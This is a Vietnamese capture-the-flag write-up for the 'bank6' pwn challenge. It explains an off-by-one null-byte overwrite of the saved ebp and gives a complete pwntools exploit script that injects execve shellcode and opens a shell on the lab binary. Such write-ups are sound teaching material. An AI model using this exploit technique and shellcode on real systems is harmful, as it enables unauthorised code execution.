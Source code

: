 # **bank6**

# Task

nc 61.28.237.24 30207

File: bank6

## Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  welcome();
  puts("[+] Good bye!");
  return 0;
}
```

```c
void welcome()
{
  puts("[+] Welcome");
  Register();
}
```

```c
void Register()
{
  char name[1024]; // [esp+Ch] [ebp-40Ch] BYREF
  int balance; // [esp+40Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Here is a gift: %p\n", name);
  printf("[+] Please enter your name: ");
  __isoc99_scanf("%1036s", name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

![image](https://user-images.githubusercontent.com/31529599/120055810-9be90600-c062-11eb-9171-6ce595a56b1f.png)

bài này nhận input bằng `scanf` và format string của nó chứa giới hạn nhập vào là `1036` nên không thể nào overwrite return address 

tuy nhiên khi debug bằng `gdb` thì ta sẽ dễ dàng thấy có thể overwrite được 1 bytes cuối của `ebp` (nghĩa là sau khi nhập số ký tự >= 1036) thì hàm này sẽ đặt một terminate character ở cuối là vị trí thứ 1037 chính là byte cuối cùng của `ebp`) cho nên ta sẽ biết được giá trị trả về sẽ lần lượt là nằm ở:

`ebp` cho hàm `Register`
`ebp+4` cho hàm `Welcome`

vậy ta sẽ overweite 1 bytes cuối của `ebp` để `ebp+4` sẽ nằm trên vùng input của biến `name` sau đó ta overwrite `ebp+4` chính là địa chỉ trả về của hàm `Welcome` với địa chỉ của shellcode (địa chỉ của biến `name`)

## Exploit

```python
from pwn import *

binary = context.binary = ELF('./bank6')

p = process('./bank6')
#p = remote('61.28.237.24', '30207')

p.recvuntil('Here is a gift: ')

shelladdr = int(p.recvline().strip(), 16) # lấy địa chỉ của biến name chính là địa chỉ của shellcode 

# shellcode execve để gọi bash shell
shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x08\x40\x40\x40\xcd\x80"


# khoảng cách giữa địa chỉ biến name với địa chỉ ebp sau khi overwrite byte cuối
dis = (((shelladdr + 1036) >> 8) << 8) - shelladdr

# inject payload ngay đầu chuỗi nhập (địa chỉ biến name)
payload = shellcode

# padding từ cuối shellcode đến vị trí ebp+4 
payload += b'A'*(dis+4-len(payload))

# ghi vào ebp+4 địa chỉ của shellcode
payload += p32(shelladdr)

# padding đủ 1036 byte để overwrite byte cuối ebp để ebp+4 nằm trong khoảng 1036 byte input name
payload += b'A'*(0x40c-len(payload))





f = open('solve.txt', 'wb')

f.write(payload)
p.sendline(payload)

p.interactive()


```

# Run script
vì server đã đóng nên mình tiến hành khai thác local với file flag.txt HCMUSCTF{bank6}

![image](https://user-images.githubusercontent.com/31529599/120056239-17e44d80-c065-11eb-9f60-399be3c1ffe0.png)

Xong !

